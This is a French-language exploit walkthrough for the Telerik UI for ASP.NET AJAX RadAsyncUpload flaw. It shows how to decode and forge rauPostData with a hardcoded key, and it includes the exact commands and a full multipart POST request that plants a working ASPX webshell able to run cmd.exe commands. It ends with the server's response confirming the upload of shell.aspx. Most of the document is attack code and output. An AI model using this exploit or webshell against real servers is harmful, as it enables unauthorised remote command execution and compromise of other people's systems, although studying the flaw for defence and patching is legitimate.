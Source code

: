 # Webshell exploit - Telerik UI for ASP.NET AJAX

## Exploit
La librairie télérik a une clé hardcodé, ainsi il est possible de décoder le rauPostData, de le modifier puis ensuite de le recoder avec un payload malveillant (webshell).

Lien vulnérable :

https://URL/Telerik.Web.UI.WebResource.axd?type=rau

Comme énnoncé, il est possible de décoder le champ rauPostData à l'aide du script python disponible sur github : https://github.com/bao7uo/RAU_crypto

```
python3 RAU_crypto.py -D "ATTu5i4R+ViNFYO6kst0jC11wM/1iqH+W/isjhaDjNuCI7eJ/BY5d1E9eqZK27CJCMuon9u8/hgRIM/cTlgLlv4qOYjPBjs81Y3dAZAdtIr3TXiCmZi9M09a1BYMxjvGKfVky3b7PoOppeWS/3rgldxu1TGN4BfIe3ZPc2c3sB35eKSQ0h48TaSQv2K/BE4Jh23M1Ac3/ERQgqlx+BhCkdKH6MnBdL5avdiJIYeRgqLjIfzPqHi6jL6PWyXWr/su+RYAwlu...qQFE7IKGs="
```

Une fois décodé, on obtient le résultat suivant :

```
JSON: {"TargetFolder":"jgas0meS/uP/TPzDTw==","TempTargetFolder":"YIGV6iU3FJMHN7xqIJe0atZ4EBwFStKIJ6c3NOaZFEon6eU=","MaxFileSize":31457280,"TimeToLive":{"Hours":4,"Minutes":0,"Seconds":0,"Milliseconds":0,"Ticks":144000000000,"Days":0,"TotalDays":0.16666666666666666,"TotalHours":4,"TotalMilliseconds":14400000,"TotalMinutes":240,"TotalSeconds":14400},"UseApplicationPoolImpersonation":false,"AllowedFileExtensions":[".pdf",".txt",".rtf",".doc",".docx",".docm",".dot",".dotx",".dotm",".csv",".xls",".xlsx",".xlsm",".xlt",".xltx",".xltm",".xlsb",".xlam",".ppt",".pptx",".pptm",".pps",".ppsx",".ppsm",".potx",".potm",".ppam",".sldx",".sldm",".msg",".png",".gif",".jpg",".jp2",".tiff",".bmp",".zip",".xml"]}
```

Les éléments importants à récupérer sont : 

 - TempTargetFolder = **D:\WWW\APP\App_Data\RadUploadTemp** 
 - Version =  **2014.3.1024.40**

Une fois ces éléments récupérés, il va être possible de préparer la requête POST du webshell en aspx via la commande suivavnte : 

```
python3 RAU_crypto2.py -p "D:\WWW\APP" "2014.3.1024.40" shell.aspx
```

(shell.aspx étant le chemin vers le fichier sources du webshell sur notre machine)

Il ne reste plus qu'à renvoyer le formulaire d'upload en modifiant le paramètre rauPostData, le contenu du champ file, ainsi que l'uploadId qui sera le nom de notre webshell qu'on va déposer sur le serveur.


```
POST /Telerik.Web.UI.WebResource.axd?type=rau HTTP/1.1
Host: URL
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://URL/Image/UploadProcess.aspx
Cache-Control: no-cache
Content-Length: 3995
Content-Type: multipart/form-data; boundary=---------------------------9756552771978474811260608736
Cookie: ASP.NET_SessionId=pyz4ufwttw
Connection: close

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="rauPostData"

ATTu5i4R+ViNFY...FE7IKGs=

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<%@ Page Language="VB" Debug="true" %>

<%@ import Namespace="system.IO" %>

<%@ import Namespace="System.Diagnostics" %>



<script runat="server">



Sub RunCmd(Src As Object, E As EventArgs)

  Dim myProcess As New Process()

  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)

  myProcessStartInfo.UseShellExecute = false

  myProcessStartInfo.RedirectStandardOutput = true

  myProcess.StartInfo = myProcessStartInfo

  myProcessStartInfo.Arguments=xcmd.text

  myProcess.Start()



  Dim myStreamReader As StreamReader = myProcess.StandardOutput

  Dim myString As String = myStreamReader.Readtoend()

  myProcess.Close()

  mystring=replace(mystring,"<","&lt;")

  mystring=replace(mystring,">","&gt;")

  result.text= vbcrlf & "<pre>" & mystring & "</pre>"

End Sub



</script>



<html>

<body>

<form runat="server">

<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>

<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>

<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>

<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>

<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>

<p><asp:Label id="result" runat="server"></asp:Label>

</form>

</body>

</html>

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="fileName"

aze.jpg
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="contentType"

image/jpeg
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="lastModifiedDate"

2017-12-12T20:26:12.000Z
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="metadata"

{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":27775,"UploadID":"shell.aspx","IsSingleChunkUpload":false}
-----------------------------9756552771978474811260608736--
```

Réponse :

```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Wed, 20 Jun 2018 14:57:39 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Cache-Control: private
X-AspNet-Version: 
Content-Length: 619

{"fileInfo":{"FileName":"aze.jpg","ContentType":"image/jpeg","ContentLength":1657,"DateJson":"2017-12-12T20:26:12.000Z","Index":0}, "metaData":"CS8S/Z0J/b2982DRxDin0BBslA7fI0cWMuWlPu4W3FnNOs7VxBpjTqF/KbG9UGJsxKh5U7y7dwOs9mh76GOdBONL03/qL+TB4qbl6aSL5Gb/NdrY/hxEfmzfS+ZfJyYp7oTkhxWPzL+wf+uIPRQkufxCOGaPx3/KmDen+xMjfMqiprf4he4lAyq7g+sCm+mj6B24nCQAAiCegue/21Mrjd0o34x20/lFf82UcLCLpGASd9fAmfSloWakoJIMFj48Mf0Iov3JOw03Zfu2FMSlmEnkhZtflIIJxdFvw6fRcYkl+ZGRGnEAtljzxrlhqyPigEwEjOSSLnJCyFAWJzab5eeeu/VuFGGdMXB6cBbLleT0UVgUtl0BD6hn48RhHAIkkF1SyIu6ht96OyAu4n9oaGRhmojjyMQ4Lw+HE3TVF516Y028+xqZM3UdErg7JL9GoTtU4rjMzQFpEMTM7XBOZw==" }
```

Décodage des métadata :

```
{"TempFileName":"shell.aspx","AsyncUploadTypeName":"Telerik.Web.UI.UploadedFileInfo, Telerik.Web.UI, Version=2014.3.1024.40, Culture=neutral, PublicKeyToken=121fae78165ba3d4"}
```

## Liens :
https://www.the-s-unit.nl/node/78

http://www.acenyethehackerguy.com/2017/11/the-issue-asyncuploadhandler-in.html

https://github.com/straightblast/UnRadAsyncUpload/wiki

https://github.com/bao7uo/RAU_crypto

